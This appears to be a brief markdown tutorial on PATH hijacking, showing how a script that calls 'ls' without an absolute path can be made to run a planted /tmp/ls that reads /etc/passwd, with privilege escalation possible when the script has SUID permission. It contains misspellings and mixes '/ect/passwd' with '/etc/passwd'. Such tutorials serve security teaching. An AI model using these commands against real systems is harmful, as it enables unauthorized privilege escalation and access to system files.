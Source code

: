 # Relative path to run binary

###Table of Contents

- [Command without arguments](#command-without-arguments)

## Command without arguments

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.

#### Documentation
[SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
.<br>

#### Explanation
When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.<br>
This program show below refer to this venurability:

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.<br>
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.
```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.
